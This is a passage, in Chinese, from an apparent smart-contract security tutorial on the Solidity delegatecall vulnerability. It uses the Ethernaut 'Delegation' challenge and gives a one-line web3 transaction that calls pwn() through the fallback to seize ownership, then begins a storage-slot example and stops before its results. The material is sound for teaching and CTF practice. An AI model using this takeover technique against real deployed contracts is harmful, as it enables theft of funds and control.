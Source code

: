 ```solidity

    function Delegation(address _delegateAddress) public {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    function() public {
        if(delegate.delegatecall(msg.data)) {
            this;
        }
    }
}
```

对于这个例子，攻击者如何成为 owner 呢？

其实我们只需调用 Delegation 的假 pwn() 即可，这样就会触发 Delegation 的 fallback，这样 pwn 的函数签名哈希就会放在 msg.data[0:4] 了，这样就会只需 delegate 的 pwn() 把 owner 变成自己，如下所示即可（这就是因为 calldata 可控导致的）

```
contract.sendTransaction({data: web3.sha3("pwn()").slice(0,10)})
```

* 若 calldata 和 address 都可控，则可调用任意 address 处的任意函数

同理，只不过额外加了 address 是可控的这个条件，不再作分析

### 原因分析

```solidity
pragma solidity ^0.4.23;

contract A {
    address public c;
    address public b;
    
    function test() public returns (address a) {
        a = address(this);
        b = a;
    }
}

contract B {
    address public b;
    address public c;
    
    function withdelegatecall(address testaddress) public {
        testaddress.delegatecall(bytes4(keccak256("test()")));
    }
}
```

来看上面这个例子，假设合约 A 部署后地址为 address_a，合约 B 部署后地址为 address_b，使用 外部账户 C 调用 withdelegatecall(address_a)，address_a 和 address_b 中的 b、c 变量分别是多少？结果如下
